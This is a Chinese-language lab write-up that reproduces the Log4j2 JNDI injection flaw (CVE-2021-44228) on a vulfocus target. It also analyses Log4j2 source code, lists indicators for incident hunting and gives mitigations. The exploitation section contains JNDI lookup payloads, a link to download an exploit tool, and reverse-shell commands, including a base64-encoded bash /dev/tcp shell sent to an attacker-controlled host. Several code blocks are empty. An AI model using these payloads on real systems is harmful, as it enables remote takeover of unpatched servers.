log4j2远程命令执行漏洞复现（CVE-2021-44228）
最后更新时间:
文章总字数:
预计阅读时间:
Apache log4j2 远程命令执行漏洞复现
0x01 前言
Apache log4j2 RCE漏洞（CVE-2021-44228）一出，各大行业知名厂商纷纷中招，与之前的fastjson、shiro漏洞相比更为严重，预计在之后的三四年中漏洞会一直存在。此漏洞影响范围特别广泛，漏洞利用门槛低，危害程度非常大，如果被攻击者恶意利用，危害程度不亚于2017年爆发的“永恒之蓝”漏洞。以下图片来源于网络






0x02 漏洞简介
Apache Log4j2 是一个基于 Java 的日志记录工具。该工具重写了 Log4j 框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。 由于Log4j2组件在处理程序日志记录时存在JNDI注入缺陷，未经授权的攻击者利用该漏洞，可向目标服务器发送精心构造的恶意数据，触发Log4j2组件解析缺陷，实现目标服务器的任意代码执行，获得目标服务器权限。
- 漏洞编号：CVE-2021-44228
- 漏洞等级：紧急
- CVSS评分：10（最高级）
- 影响版本：Apache log4j2 2.0 - 2.14.1
- 安全版本：Apache log4j-2.15.0-rc2
更多关于此漏洞的详细分析：Log4j高危漏洞！具体原因解析！全网第一
0x03 影响范围
该漏洞影响范围极广、危害极大，主要由于该组件应用范围十分广泛，所有使用该组件的所有产品都会受到漏洞影响，因此对其下游造成的软件供应链安全隐患巨大。 目前已知的可能受影响的应用及组件包括但不限于如下：
| 组件名称 | 版本信息 |
|---|---|
| Apache Struts2 | 全版本 |
| ElasticSearch | 5.x，6.x，7.x，8.0.0beta1，8.0.0alpha1和8.0.0alpha2 |
| Logstash | 5.0.0至最新 |
| Apache Flink | 1.11.0-rc1 到 1.14.0 |
| Apache Druid | 0.7.x以上 |
| Hadoop Hive | 2.x和3.x |
| Apache Log4j SLF4J Binding | ‘2.14.1’, ‘2.14.0’, ‘2.13.3’, ‘2.13.2’, ‘2.13.1’, ‘2.13.0’, ‘2.12.1’, ‘2.12.0’, ‘2.11.2’, ‘2.11.1’, ‘2.11.0’, ‘2.10.0’, ‘2.9.1’, ‘2.9.0’, ‘2.8.2’, ‘2.8.1’, ‘2.8’, ‘2.7’, ‘2.6.2’, ‘2.6.1’, ‘2.6’, ‘2.5’, ‘2.4.1’, ‘2.4’, ‘2.3’, ‘2.2’, ‘2.1’, ‘2.0.2’, ‘2.0.1’, ‘2.0’, ‘2.0-rc2’, ‘2.0-rc1’, ‘2.0-beta9’, ‘2.0-beta8’, ‘2.0-beta7’, ‘2.0-beta6’, ‘2.0-beta5’ |
| Spring Boot | ‘2.6.1’, ‘2.6.0’, ‘2.5.7’, ‘2.5.6’, ‘2.5.5’, ‘2.5.4’, ‘2.5.3’, ‘2.5.2’, ‘2.5.1’, ‘2.5.0’, ‘2.4.13’, ‘2.4.12’, ‘2.4.11’, ‘2.4.10’, ‘2.4.9’, ‘2.4.8’, ‘2.4.7’, ‘2.4.6’, ‘2.4.5’, ‘2.4.4’, ‘2.4.3’, ‘2.4.2’, ‘2.4.1’, ‘2.4.0’, ‘2.3.12.RELEASE’, ‘2.3.11.RELEASE’, ‘2.3.10.RELEASE’, ‘2.3.9.RELEASE’, ‘2.3.8.RELEASE’, ‘2.3.7.RELEASE’, ‘2.3.6.RELEASE’, ‘2.3.5.RELEASE’, ‘2.3.4.RELEASE’, ‘2.3.3.RELEASE’, ‘2.3.2.RELEASE’, ‘2.3.1.RELEASE’, ‘2.3.0.RELEASE’, ‘2.2.13.RELEASE’, ‘2.2.12.RELEASE’, ‘2.2.11.RELEASE’, ‘2.2.10.RELEASE’, ‘2.2.9.RELEASE’, ‘2.2.8.RELEASE’, ‘2.2.7.RELEASE’, ‘2.2.6.RELEASE’, ‘2.2.5.RELEASE’, ‘2.2.4.RELEASE’, ‘2.2.3.RELEASE’, ‘2.2.2.RELEASE’, ‘2.2.1.RELEASE’, ‘2.2.0.RELEASE’, ‘2.1.18.RELEASE’, ‘2.1.17.RELEASE’, ‘2.1.16.RELEASE’, ‘2.1.15.RELEASE’, ‘2.1.14.RELEASE’, ‘2.1.13.RELEASE’, ‘2.1.12.RELEASE’, ‘2.1.11.RELEASE’, ‘2.1.10.RELEASE’, ‘2.1.9.RELEASE’, ‘2.1.8.RELEASE’, ‘2.1.7.RELEASE’, ‘2.1.6.RELEASE’, ‘2.1.5.RELEASE’, ‘2.1.4.RELEASE’, ‘2.1.3.RELEASE’, ‘2.1.2.RELEASE’, ‘2.1.1.RELEASE’, ‘2.1.0.RELEASE’, ‘2.0.9.RELEASE’, ‘2.0.8.RELEASE’, ‘2.0.7.RELEASE’, ‘2.0.6.RELEASE’, ‘2.0.5.RELEASE’, ‘2.0.4.RELEASE’, ‘2.0.3.RELEASE’, ‘2.0.2.RELEASE’, ‘2.0.1.RELEASE’, ‘2.0.0.RELEASE’, ‘1.5.22.RELEASE’, ‘1.5.21.RELEASE’, ‘1.5.20.RELEASE’, ‘1.5.19.RELEASE’, ‘1.5.18.RELEASE’, ‘1.5.17.RELEASE’, ‘1.5.16.RELEASE’, ‘1.5.15.RELEASE’, ‘1.5.14.RELEASE’, ‘1.5.13.RELEASE’, ‘1.5.12.RELEASE’, ‘1.5.11.RELEASE’, ‘1.5.10.RELEASE’, ‘1.5.9.RELEASE’, ‘1.5.8.RELEASE’, ‘1.5.7.RELEASE’, ‘1.5.6.RELEASE’, ‘1.5.5.RELEASE’, ‘1.5.4.RELEASE’, ‘1.5.3.RELEASE’, ‘1.5.2.RELEASE’, ‘1.5.1.RELEASE’, ‘1.5.0.RELEASE’, ‘1.4.7.RELEASE’, ‘1.4.6.RELEASE’, ‘1.4.5.RELEASE’, ‘1.4.4.RELEASE’, ‘1.4.3.RELEASE’, ‘1.4.2.RELEASE’, ‘1.4.1.RELEASE’, ‘1.4.0.RELEASE’, ‘1.3.8.RELEASE’, ‘1.3.7.RELEASE’, ‘1.3.6.RELEASE’, ‘1.3.5.RELEASE’, ‘1.3.4.RELEASE’, ‘1.3.3.RELEASE’, ‘1.3.2.RELEASE’, ‘1.3.1.RELEASE’, ‘1.3.0.RELEASE’, ‘1.2.8.RELEASE’, ‘1.2.7.RELEASE’, ‘1.2.6.RELEASE’, ‘1.2.5.RELEASE’, ‘1.2.4.RELEASE’, ‘1.2.3.RELEASE’, ‘1.2.2.RELEASE’, ‘1.2.1.RELEASE’, ‘1.2.0.RELEASE’, ‘1.1.12.RELEASE’, ‘1.1.11.RELEASE’, ‘1.1.10.RELEASE’, ‘1.1.9.RELEASE’, ‘1.1.8.RELEASE’, ‘1.1.7.RELEASE’, ‘1.1.6.RELEASE’, ‘1.1.5.RELEASE’, ‘1.1.4.RELEASE’, ‘1.1.3.RELEASE’, ‘1.1.2.RELEASE’, ‘1.1.1.RELEASE’, ‘1.1.0.RELEASE’, ‘1.0.2.RELEASE’, ‘1.0.1.RELEASE’, ‘1.0.0.RELEASE’ |
| Camel :: Core | ‘3.13.0’, ‘3.12.0’, ‘3.11.4’, ‘3.11.3’, ‘3.11.2’, ‘3.11.1’, ‘3.11.0’, ‘3.10.0’, ‘3.9.0’, ‘3.8.0’, ‘3.7.6’, ‘3.7.5’, ‘3.7.4’, ‘3.7.3’, ‘3.7.2’, ‘3.7.1’, ‘3.7.0’, ‘3.6.0’, ‘3.5.0’, ‘3.4.6’, ‘3.4.5’, ‘3.4.4’, ‘3.4.3’, ‘3.4.2’, ‘3.4.1’, ‘3.4.0’, ‘3.3.0’, ‘3.2.0’, ‘3.1.0’, ‘3.0.1’, ‘3.0.0’, ‘2.25.4’, ‘2.25.3’, ‘2.25.2’, ‘2.25.1’, ‘2.25.0’, ‘2.24.3’, ‘2.24.2’, ‘2.24.1’, ‘2.24.0’, ‘2.23.4’, ‘2.23.3’, ‘2.23.2’, ‘2.23.1’, ‘2.23.0’, ‘2.22.5’, ‘2.22.4’, ‘2.22.3’, ‘2.22.2’, ‘2.22.1’, ‘2.22.0’, ‘2.21.5’, ‘2.21.4’, ‘2.21.3’, ‘2.21.2’, ‘2.21.1’, ‘2.21.0’, ‘2.20.4’, ‘2.20.3’, ‘2.20.2’, ‘2.20.1’, ‘2.20.0’, ‘2.19.5’, ‘2.19.4’, ‘2.19.3’, ‘2.19.2’, ‘2.19.1’, ‘2.19.0’, ‘2.18.5’, ‘2.18.4’, ‘2.18.3’, ‘2.18.2’, ‘2.18.1’, ‘2.18.0’, ‘2.17.7’, ‘2.17.6’, ‘2.17.5’, ‘2.17.4’, ‘2.17.3’, ‘2.17.2’, ‘2.17.1’, ‘2.17.0’, ‘2.16.5’, ‘2.16.4’, ‘2.16.3’, ‘2.16.2’, ‘2.16.1’, ‘2.16.0’, ‘2.15.6’, ‘2.15.5’, ‘2.15.4’, ‘2.15.3’, ‘2.15.2’, ‘2.15.1’, ‘2.15.0’, ‘2.14.4’, ‘2.14.3’, ‘2.14.2’, ‘2.14.1’, ‘2.14.0’, ‘2.13.4’, ‘2.13.3’, ‘2.13.2’, ‘2.13.1’, ‘2.13.0’, ‘2.12.5’, ‘2.12.4’, ‘2.12.3’, ‘2.12.2’, ‘2.12.1’, ‘2.12.0’, ‘2.11.4’, ‘2.11.3’, ‘2.11.2’, ‘2.11.1’, ‘2.11.0’, ‘2.10.7’, ‘2.10.6’, ‘2.10.5’, ‘2.10.4’, ‘2.10.3’, ‘2.10.2’, ‘2.10.1’, ‘2.10.0’, ‘2.9.8’, ‘2.9.7’, ‘2.9.6’, ‘2.9.5’, ‘2.9.4’, ‘2.9.3’, ‘2.9.2’, ‘2.9.1’, ‘2.9.0’, ‘2.8.6’, ‘2.8.5’, ‘2.8.4’, ‘2.8.3’, ‘2.8.2’, ‘2.8.1’, ‘2.8.0’, ‘2.7.5’, ‘2.7.4’, ‘2.7.3’, ‘2.7.2’, ‘2.7.1’, ‘2.7.0’, ‘2.6.0’, ‘2.5.0’, ‘2.4.0’, ‘2.3.0’, ‘2.2.0’, ‘2.1.0’, ‘2.0.0’, ‘1.6.4’, ‘1.6.3’, ‘1.6.2’, ‘1.6.1’, ‘1.6.0’, ‘1.5.0’, ‘1.4.0’, ‘1.3.0’, ‘1.2.0’, ‘1.1.0’, ‘1.0.0’, ‘3.0.0-M4’, ‘3.0.0-M3’, ‘3.0.0-M2’, ‘3.0.0-M1’, ‘2.0-M3’, ‘2.0-M2’, ‘2.0-M1’, ‘3.0.0-RC3’, ‘3.0.0-RC2’, ‘3.0.0-RC1’, ‘2.9.0-RC1’ |
| JUnit Vintage Engine | ‘5.8.2’, ‘5.8.1’, ‘5.8.0’, ‘5.7.2’, ‘5.7.1’, ‘5.7.0’, ‘5.6.3’, ‘5.6.2’, ‘5.6.1’, ‘5.6.0’, ‘5.5.2’, ‘5.5.1’, ‘5.5.0’, ‘5.4.2’, ‘5.4.1’, ‘5.4.0’, ‘5.3.2’, ‘5.3.1’, ‘5.3.0’, ‘5.2.0’, ‘5.1.1’, ‘5.1.0’, ‘4.12.3’, ‘4.12.2’, ‘4.12.1’, ‘4.12.0’, ‘5.8.0-M1’, ‘5.7.0-M1’, ‘5.6.0-M1’, ‘5.5.0-M1’, ‘5.4.0-M1’, ‘5.3.0-M1’, ‘5.2.0-M1’, ‘5.1.0-M2’, ‘5.1.0-M1’, ‘4.12.0-M6’, ‘4.12.0-M5’, ‘4.12.0-M4’, ‘4.12.0-M3’, ‘4.12.0-M2’, ‘4.12.0-M1’, ‘5.8.0-RC1’, ‘5.7.0-RC1’, ‘5.6.0-RC1’, ‘5.5.0-RC2’, ‘5.5.0-RC1’, ‘5.4.0-RC2’, ‘5.4.0-RC1’, ‘5.3.0-RC1’, ‘5.2.0-RC1’, ‘5.1.0-RC1’, ‘4.12.0-RC3’, ‘4.12.0-RC2’, ‘4.12.0-RC1’ |
| JBoss Logging 3 | ‘3.4.2.Final’, ‘3.4.1.Final’, ‘3.4.0.Final’, ‘3.3.3.Final’, ‘3.3.2.Final’, ‘3.3.1.Final’, ‘3.3.0.Final’, ‘3.2.1.Final’, ‘3.2.0.Final’, ‘3.1.0.CR2’, ‘3.1.0.CR1’, ‘3.0.0.CR1’, ‘3.3.0.Beta1’, ‘3.2.0.Beta1’, ‘3.1.0.Beta3’, ‘3.1.0.Beta2’, ‘3.1.0.Beta1’, ‘3.0.0.Beta5’, ‘3.0.0.Beta4’, ‘3.0.0.Beta3’, ‘3.0.0.Beta2’, ‘3.0.0.Beta1’ |
| HikariCP | ‘5.0.0’, ‘4.0.3’, ‘4.0.2’, ‘4.0.1’, ‘4.0.0’, ‘3.4.5’, ‘3.4.4’, ‘3.4.3’, ‘3.4.2’, ‘3.4.1’, ‘3.4.0’, ‘3.3.1’, ‘3.3.0’, ‘3.2.0’, ‘3.1.0’, ‘3.0.0’, ‘2.7.9’, ‘2.7.8’, ‘2.7.7’, ‘2.7.6’, ‘2.7.5’, ‘2.7.4’, ‘2.7.3’, ‘2.7.2’, ‘2.7.1’, ‘2.7.0’, ‘2.6.3’, ‘2.6.2’, ‘2.6.1’, ‘2.6.0’, ‘2.5.1’, ‘2.5.0’, ‘2.4.7’, ‘2.4.6’, ‘2.4.5’, ‘2.4.4’, ‘2.4.3’, ‘2.4.2’, ‘2.4.1’, ‘2.4.0’, ‘2.3.13’, ‘2.3.12’, ‘2.3.11’, ‘2.3.10’, ‘2.3.9’, ‘2.3.8’, ‘2.3.7’, ‘2.3.6’, ‘2.3.5’, ‘2.3.4’, ‘2.3.3’, ‘2.3.2’, ‘2.3.1’, ‘2.3.0’, ‘2.2.5’, ‘2.2.4’, ‘2.2.3’, ‘2.2.2’, ‘2.2.1’, ‘2.2.0’, ‘2.1.0’, ‘2.0.1’, ‘2.0.0’, ‘1.4.0’, ‘1.3.9’, ‘1.3.8’, ‘1.3.7’, ‘1.3.6’, ‘1.3.5’, ‘1.3.4’, ‘1.3.3’, ‘1.3.2’, ‘1.3.1’, ‘1.3.0’, ‘1.2.9’, ‘1.2.8’, ‘1.2.7’, ‘1.2.6’, ‘1.2.5’, ‘1.2.4’, ‘1.2.3’, ‘1.2.2’, ‘1.2.1’, ‘1.1.9’, ‘1.1.8’, ‘1.1.7’, ‘1.1.6’, ‘1.1.5’, ‘1.1.4’, ‘1.1.3’ |
| Logging | ‘1.1.0’, ‘1.0.0’, ‘0.6.0’, ‘0.5.0’, ‘0.4.1’, ‘0.4.0’, ‘0.3.1’, ‘0.3.0’, ‘0.2.6’, ‘0.2.4’, ‘0.2.3’, ‘0.2.2’, ‘0.2.0’, ‘0.1.2’, ‘0.1.1’, ‘0.1.0’, ‘0.5.0-alpha.1’, ‘0.5.0-alpha’ |
| Jedis | ‘3.7.0’, ‘3.6.3’, ‘3.6.2’, ‘3.6.1’, ‘3.6.0’, ‘3.5.2’, ‘3.5.1’, ‘3.5.0’, ‘3.4.1’, ‘3.4.0’, ‘3.3.0’, ‘3.2.0’, ‘3.1.0’, ‘3.0.1’, ‘3.0.0’, ‘2.10.2’, ‘2.10.1’, ‘2.10.0’, ‘2.9.3’, ‘2.9.2’, ‘2.9.1’, ‘2.9.0’, ‘2.8.2’, ‘2.8.1’, ‘2.8.0’, ‘2.7.3’, ‘2.7.2’, ‘2.7.1’, ‘2.7.0’, ‘2.6.3’, ‘2.6.2’, ‘2.6.1’, ‘2.6.0’, ‘2.5.2’, ‘2.5.1’, ‘2.5.0’, ‘2.4.2’, ‘2.4.1’, ‘2.4.0’, ‘2.3.1’, ‘2.3.0’, ‘2.2.1’, ‘2.2.0’, ‘2.1.0’, ‘2.0.0’, ‘1.5.2’, ‘1.5.1’, ‘1.5.0’, ‘1.4.0’, ‘1.3.1’, ‘1.3.0’, ‘jedis-3.6.2’, ‘3.1.0-m4’, ‘3.1.0-m3’, ‘3.1.0-m2’, ‘3.1.0-m1’, ‘3.0.0-m1’, ‘2.10.0-m1’, ‘3.7.0-RC1’, ‘3.6.0-RC1’, ‘3.1.0-rc2’, ‘3.1.0-rc’, ‘3.0.1-rc1’, ‘3.0.0-rc1’, ‘2.10.0-rc1’, ‘1.5.0-RC2’, ‘1.5.0-RC1’, ‘4.0.0-beta4’, ‘4.0.0-beta3’, ‘4.0.0-beta2’, ‘4.0.0-beta1’ |
| WSO2 Carbon Kernel Core | ‘5.2.13’, ‘5.2.8’, ‘5.2.7’, ‘5.2.6’, ‘5.2.5’, ‘5.2.4’, ‘5.2.3’, ‘5.2.2’, ‘5.2.1’, ‘4.6.2’, ‘4.6.1’, ‘4.6.0’, ‘4.5.1’, ‘4.4.37’, ‘4.4.36’, ‘4.4.35’, ‘4.4.34’, ‘4.4.33’, ‘4.4.32’, ‘4.4.31’, ‘4.4.30’, ‘4.4.29’, ‘4.4.28’, ‘4.4.27’, ‘4.4.26’, ‘4.4.25’, ‘4.4.24’, ‘4.4.23’, ‘4.4.22’, ‘4.4.21’, ‘4.4.20’, ‘4.4.19’, ‘4.7.0-m6’, ‘4.7.0-m5’, ‘4.7.0-m4’, ‘4.7.0-m3’, ‘4.7.0-m2’, ‘4.7.0-m1’, ‘4.6.3-m5’, ‘4.6.3-m4’, ‘4.6.3-m3’, ‘4.6.3-m2’, ‘4.6.3-m1’, ‘4.6.2-m9’, ‘4.6.2-m8’, ‘4.6.2-m7’, ‘4.6.2-m6’, ‘4.6.2-m5’, ‘4.6.2-m4’, ‘4.6.2-m3’, ‘4.6.2-m2’, ‘4.6.2-m1’, ‘4.6.1-m8’, ‘4.6.1-m7’, ‘4.6.1-m6’, ‘4.6.1-m5’, ‘4.6.1-m4’, ‘4.6.1-m3’, ‘4.6.1-m2’, ‘4.6.1-m1’, ‘4.6.1-beta2’, ‘4.6.1-beta’, ‘4.6.0-beta2’, ‘4.6.1-alpha3’, ‘4.6.1-alpha2’, ‘4.6.1-alpha’, ‘4.6.0-alpha2’, ‘4.6.0-alpha’ |
以上应用/组件受影响版本统计数据来自：微步情报局 微步在线研究响应中心
0x04 漏洞演示
演示靶场采用vulfocus在线平台的log4j2-rce靶场，该靶场漏洞位置存在于/hello路径

vulfocus的log4j2-rce靶场的请求数据包如下：
1 | |
漏洞验证过程使用dnslog、burpsuite、JNDIExploit以及拥有公网ip的vps的服务器，建议java依赖环境采用jdk8u191以下版本进行复现。
1 | |
0x05 漏洞检测
1. dnslog手动验证
首先在dnslog平台生成一个地址，然后利用该地址构造payload让靶机对dnslog平台发起请求：

传入payload：payload=%24%7Bjndi%3Aldap%3A%2F%2Fauks48.dnslog.cn%7D --记得url编码

请求成功后，dnslog平台点击 Refresh Record 后会接收靶机的请求，记录了靶机的请求的ip地址以及响应时间

通过上述步骤验证，在演示靶场环境中可以确定漏洞是真实存在的，但在真实环境中只能说初步判断目标是有大概率存在漏洞的，由于真实环境中的一些复杂因素，即使dnslog请求成功了也不能完全保证目标一定存在rce漏洞。
2. 漏洞利用
1. JNDIExploit
JNDIExploit是一款用于 JNDI注入 利用的工具，大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存shell，并集成了常见的bypass 高版本JDK的方式，适用于与自动化工具配合使用。
- 下载地址: https://pan.baidu.com/s/1lmday3MHoPHI5f9rHNjV2Q 提取码:
5686
使用 java -jar JNDIExploit.jar -u 查看支持的 LDAP 格式
1 | |
目前支持的所有 PayloadType 为
1 | |
目前支持的所有 GadgetType 为
1 | |
WebsphereBypass 中的 3 个动作：
1 | |
2. VPS部署ldap服务
将JNDI注入工具传到vps服务器上并执行如下命令
反弹shell指令：
bash -i >& /dev/tcp/your-ip/自己设置的监听端口号 0>&1
JNDI启动方法：
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMzcvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}" -A xxx.xxx.xxx.xxx
这个地方是反弹shell指令经过base64编码后所得。这串代码里只需改此处和最后面服务器的IP
-C是执行的bash命令，-c参数后面是执行的具体命令，用双引号引起来 -A 指服务器的IP
将反弹shell指令base64编码后，将一整串启动JNDI代码在vps中运行
这里使用
1 | |

使用burpsuit抓包，替换payload
1 | |

成功反弹shell


找到flag
0x06 Log4j2源码浅析
Log4j2是Apache的一个开源项目，通过使用Log4j2，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。最令人感兴趣的就是，这些可以通过一个配置文件来灵活地进行配置，而不需要修改应用的代码。
从上面的解释中我们可以看到Log4j2的功能十分强大，这里会简单分析其与漏洞相关联部分的源码实现，来更熟悉Log4j2的漏洞产生原因。
我们使用maven来引入相关组件的2.14.0版本，在工程的pom.xml下添加如下配置，他会导入两个jar包(这里是跟着文章走的，暂时不实操了，用脑子复现一波)
1 | |
在工程目录resources下创建log4j2.xml
1 | |
log4j2中包含两个关键组件LogManager和LoggerContext。LogManager是Log4J2启动的入口，可以初始化对应的LoggerContext。LoggerContext会对配置文件进行解析等其它操作。
在不使用slf4j的情况下常见的Log4J用法是从LogManager中获取Logger接口的一个实例，并调用该接口上的方法。运行下列代码查看打印结果
1 | |

属性占位符之Interpolator插值器
log4j2中环境变量键值对被封装为了StrLookup对象。这些变量的值可以通过属性占位符来引用，格式为:${prefix:key}。在Interpolator插值器内部以Map的方式则封装了多个StrLookup对象，如下图显示：

详细信息可以查看官方文档。这些实现类存在于org.apache.logging.log4j.core.lookup包下。
当参数占位符${prefix:key}带有prefix前缀时，Interpolator会从指定prefix对应的StrLookup实例中进行key查询。当参数占位符${key}没有prefix时，Interpolator则会从默认查找器中进行查询。如使用${jndi:key}时，将会调用JndiLookup的lookup方法 使用jndi(javax.naming)获取value。如下图演示。

模式布局
log4j2支持通过配置Layout打印格式化的指定形式日志，可以在Appenders的后面附加Layouts来完成这个功能。常用之一有PatternLayout，也就是我们在配置文件中PatternLayout字段所指定的属性pattern的值%d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %level %logger{36} - %msg%n。 %msg表示所输出的消息，其它格式化字符所表示的意义可以查看官方文档。

PatternLayout模式布局会通过PatternProcessor模式解析器，对模式字符串进行解析，得到一个List<PatternConverter>转换器列表和List<FormattingInfo>格式信息列表。在配置文件PatternLayout标签的pattern属性中我们可以看到类似%d的写法，d代表一个转换器名称，log4j2会通过PluginManager收集所有类别为Converter的插件,同时分析插件类上的@ConverterKeys注解,获取转换器名称,并建立名称到插件实例的映射关系，当PatternParser识别到转换器名称的时候,会查找映射。相关转换器名称注解和加载的插件实例如下图所示：


本次漏洞关键在于转换器名称msg对应的插件实例为MessagePatternConverter对于日志中的消息内容处理存在问题，这部分是攻击者可控的。MessagePatternConverter会将日志中的消息内容为${prefix:key}格式的字符串进行解析转换，读取环境变量。此时为jndi的方式的话，就存在漏洞。
日志级别
log4j2支持种日志级别，通过日志级别我们可以将日志信息进行分类，在合适的地方输出对应的日志。哪些信息需要输出，哪些信息不需要输出，只需在一个日志输出控制文件中稍加修改即可。级别由高到低共分为6个：fatal(致命的), error, warn, info, debug, trace(堆栈)。 log4j2还定义了一个内置的标准级别intLevel，由数值表示，级别越高数值越小。

当日志级别（调用）大于等于系统设置的intLevel的时候，log4j2才会启用日志打印。在存在配置文件的时候 ，会读取配置文件中<root level="error">值设置intLevel。当然我们也可以通过Configurator.setLevel("当前类名", Level.INFO);来手动设置。如果没有配置文件也没有指定则会默认使用Error级别，也就是200，如下图中的处理：

0x07 漏洞原理
首先先来看一下网络上流传最多的payload
1 | |
而触发漏洞的方法，大家都是以Logger.error()方法来进行演示，那这里我们也采用同样的方式来讲解，具体漏洞环境代码如下所示
1 | |
直击漏洞本源，将断点断在org/apache/logging/log4j/core/appender/AbstractOutputStreamAppender.java中的directEncodeEvent方法上，该方法的第一行代码将返回当前使用的布局，并调用对应布局处理器的encode方法。log4j2默认布局使用的是PatternLayout，如下图所示：

继续跟进在encode中会调用toText方法，根据注释，该方法的作用为创建指定日志事件的文本表示形式，并将其写入指定的StringBuilder中。


接下来会调用serializer.toSerializable，并在这个方法中调用不同的Converter来处理传入的数据，如下图所示，

这里整理了一下调用的Converter
1 | |
这么多Converter都将一个个通过上图中的for循环对日志事件进行处理，当调用到MessagePatternConverter时，我们跟入MessagePatternConverter.format()方法中一探究竟

在MessagePatternConverter.format()方法中对日志消息进行格式化，其中很明显的看到有针对字符"{"，这三行代码中关键点在于最后一行

这里我圈了几个重点，有助于理解Log4j2 为什么会用JndiLookup，它究竟想要做什么。此时的workingBuilder是一个StringBuilder对象，该对象存放的字符串如下所示
1 | |
本来这段字符串的长度是82，但是却给它改成了53，为什么呢？因为第五十三的位置就是$符号，也就是说${jndi:ldap://2lnhn2.ceye.io}这段不要了，从第53位开始append。而append的内容是什么呢？可以看到传入的参数是config.getStrSubstitutor().replace(event, value)的执行结果，其中的value就是${jndi:ldap://2lnhn2.ceye.io}这段字符串。replace的作用简单来说就是想要进行一个替换，我们继续跟进

经过一段的嵌套调用，来到Interpolator.lookup，这里会通过var.indexOf(PREFIX_SEPARATOR)判断":"之前的字符，我们这里用的是jndi然后，就会获取针对jndi的Strlookup对象并调用Strlookup的lookup方法，如下图所示

那么总共有多少Strlookup的子类对象可供选择呢，可供调用的Strlookup都存放在当前Interpolator类的strLookupMap属性中，如下所示

然后程序的继续执行就会来到JndiLookup的lookup方法中，并调用jndiManager.lookup方法，如下图所示

说到这里，我们已经详细了解了logger.error()造成RCE的原理：
1 | |
那么问题就来了，logger有很多方法，除了error以外还别方法可以触发漏洞么？这里就要提到Log4j2的日志优先级问题，每个优先级对应一个数值intLevel记录在StandardLevel这个枚举类型中，数值越小优先级越高。如下图所示：

当我们执行Logger.error的时候，会调用Logger.logIfEnabled方法进行一个判断，而判断的依据就是这个日志优先级的数值大小


跟进isEnabled方法发现，只有当前日志优先级数值小于Log4j2的200的时候，程序才会继续往下走，如下所示

而这里日志优先级数值小于等于200的就只有"error"、“fatal”，这两个，所以logger.fatal()方法也可触发漏洞。但是"warn"、"info"等大于200的就触发不了了。
但是这里也说了是默认情况下，日志优先级是以error为准，Log4j2的缺省配置文件如下所示。
1 | |
所以只需要做一点简单的修改，将<Root level="error">中的error改成一个优先级比较低的，例如"info"这样，只要日志优先级高于或者等于info的就可以触发漏洞，修改过后如下所示
1 | |
关于Jndi部分的远程类加载利用可以参考实验室往常的文章：Java反序列化过程中 RMI JRMP 以及JNDI多种利用方式详解、JAVA JNDI注入知识详解
0x08 入侵排查
1. 日志排查
攻击者在利用前通常采用dnslog方式进行扫描探测，对于常见利用方式可通过应用系统报错日志中对以下关键字进行排查。
1 | |
2. 流量排查
- 排查日志或者解码后完整的请求数据包中是否存在${jndi:关键字}。
- 排查日志是否存在相关堆栈报错，堆栈里是否有JndiLookup、ldapURLContext、getObjectFactoryFromReference等与 jndi 调用相关的堆栈信息。
0x09 漏洞修复
- 排查应用是否引入了Apache Log4j2 Jar包，若存在依赖引入，则可能存在漏洞影响。尽快升级Apache Log4j2所有相关应用到最新的版本：https://github.com/apache/logging-log4j2
- 缓解措施：
- 添加 jvm 启动参数 -Dlog4j2.formatMsgNoLookups=true
- 在应⽤程序的 classpath 下添加 log4j2.component.properties 配置⽂件⽂件， ⽂件内容：log4j2.formatMsgNoLookups=True
- 移除 log4j-core 包中 JndiLookup 类⽂件并重启服务
- 各大厂商针对log4j2漏洞应急方案集合：https://mp.weixin.qq.com/s/ZbzLc_N26lgUfvS-mM4R2g
参考文章
前置基础知识参考：https://blog.csdn.net/qq_43531669/article/details/123562530
复现过程参考1：http://www.luckysec.cn/posts/e991b2d2.html#toc-heading-5